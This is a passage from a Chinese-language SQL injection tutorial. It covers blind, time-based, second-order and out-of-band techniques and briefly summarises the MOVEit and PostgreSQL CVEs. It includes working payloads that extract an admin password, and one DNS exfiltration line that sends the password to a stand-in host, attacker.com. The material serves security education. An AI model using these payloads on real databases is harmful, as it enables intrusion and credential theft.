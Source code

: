 ```sql
-- 逐字符猜测数据
' AND SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1) = 'a' -- 
```

### 4. 时间延迟盲注（Time-based Blind Injection）
通过观察查询执行时间的差异来推断信息，常用于无任何可见输出的场景。

```sql
-- 如果条件为真，则执行延时
' AND IF(SUBSTRING((SELECT password FROM users WHERE username='admin'), 1, 1) = 'a', SLEEP(5), 0) -- 
```

### 5. 二阶注入（Second-order Injection）
攻击者的输入被安全地存储在数据库中，但在后续操作中被不安全地使用，导致注入发生。

```sql
-- 第一阶段：存储恶意输入
-- 用户注册时提供用户名：admin' -- 

-- 第二阶段：在另一个查询中使用该输入
SELECT * FROM user_logs WHERE username = '" + stored_username + "';
```

### 6. 带外注入（Out-of-band Injection）
当无法通过常规渠道获取数据时，攻击者使数据库通过DNS或HTTP请求将数据发送到外部服务器。

```sql
-- 在MySQL中使用LOAD_FILE函数发起DNS请求
' AND (SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users WHERE username='admin'), '.attacker.com\\share\\a.txt'))) -- 
```

## 三、真实案例分析

### 1. 2023年MOVEit Transfer漏洞（CVE-2023-34362）
**漏洞描述**：MOVEit Transfer的`moveitisapi.dll`组件存在SQL注入漏洞，攻击者无需身份验证即可利用。

**攻击过程**：
1. 攻击者向特定API端点发送包含恶意SQL代码的请求
2. 由于缺乏输入验证，SQL代码被执行
3. 攻击者获取数据库访问权限，窃取敏感数据

**影响范围**：全球数千家企业受影响，大量敏感数据被盗取。

### 2. PostgreSQL特殊字符漏洞（CVE-2025-1094）
**漏洞描述**：PostgreSQL在处理特殊字符（如无效UTF-8编码）时存在注入风险。

**攻击过程**：
1. 攻击者构造包含特殊字符序列的输入
2. 数据库解析器错误处理这些字符
3. 导致SQL语句结构被破坏，执行非预期操作

